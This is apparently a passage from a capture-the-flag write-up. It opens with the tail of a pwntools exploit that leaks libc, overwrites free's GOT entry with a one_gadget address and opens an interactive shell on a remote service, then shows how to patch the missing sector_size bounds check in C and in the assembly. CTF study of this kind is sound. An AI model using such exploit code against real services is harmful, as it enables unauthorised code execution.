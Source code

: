 ```python
    free_libc = u64(io.recv(8))
    libc_base = free_libc - 0x849a0
    print('libc_base @ 0x%x' % libc_base)
    one_gadget = 0xe5456
    io.sendline(b'1')
    io.sendline(str(free_got).encode())
    io.sendline(str(8).encode())
    io.sendline(p64(libc_base + one_gadget))
    io.sendline(b'0')
    io.sendline(b'10')
    io.interactive()


if __name__ == '__main__':
    with remote(IP, PORT) as io:
        main(io)
```

How to fix? We need to change invalid check to valid check, for example `sector_size > 0xFFFF`:

```c++
if (*endptr != 0 && *endptr != 10 || sector_size > 0xFFFF)
```

Let's look to assembler. Here is a code that's checking the size:

```
.text:0000000000400DA8                 call    _strtoll
.text:0000000000400DAD                 mov     rdx, [rsp+118h+endptr]
.text:0000000000400DB2                 movzx   edx, byte ptr [rdx]
.text:0000000000400DB5                 cmp     dl, 0Ah
.text:0000000000400DB8                 setnz   cl
.text:0000000000400DBB                 test    dl, dl
.text:0000000000400DBD                 setnz   dl
.text:0000000000400DC0                 test    cl, dl
.text:0000000000400DC2                 jnz     loc_400E5B
.text:0000000000400DC8                 mov     rdx, rax
.text:0000000000400DCB                 shr     rdx, 3Fh
.text:0000000000400DCF                 test    dl, dl
.text:0000000000400DD1                 jnz     loc_400E5B
.text:0000000000400DD7                 mov     rdi, rbp        ; ptr
.text:0000000000400DDA                 mov     [rsp+118h+size], rax
.text:0000000000400DDF                 call    _free
.text:0000000000400DE4                 mov     rax, [rsp+118h+size]
.text:0000000000400DE9                 mov     edi, 1          ; nmemb
.text:0000000000400DEE                 mov     rsi, rax        ; size
.text:0000000000400DF1                 mov     [rsp+118h+ptr], rax
.text:0000000000400DF6                 call    _calloc
```

We need to change some bytes to add `cmp` with `0xFFFF`:

```
.text:0000000000400DA8                 call    _strtoll
.text:0000000000400DAD                 mov     rdx, [rsp+118h+endptr]
.text:0000000000400DB2                 movzx   edx, byte ptr [rdx]
.text:0000000000400DB5                 cmp     dl, 0Ah
.text:0000000000400DB8                 setnz   cl
.text:0000000000400DBB                 test    dl, dl
.text:0000000000400DBD                 setnz   dl
.text:0000000000400DC0                 test    cl, dl
.text:0000000000400DC2                 jnz     loc_400E5B
.text:0000000000400DC8                 cmp     rax, 0FFFFh
.text:0000000000400DCE                 nop
.text:0000000000400DCF                 nop
.text:0000000000400DD0                 nop
.text:0000000000400DD1                 jg      loc_400E5B
```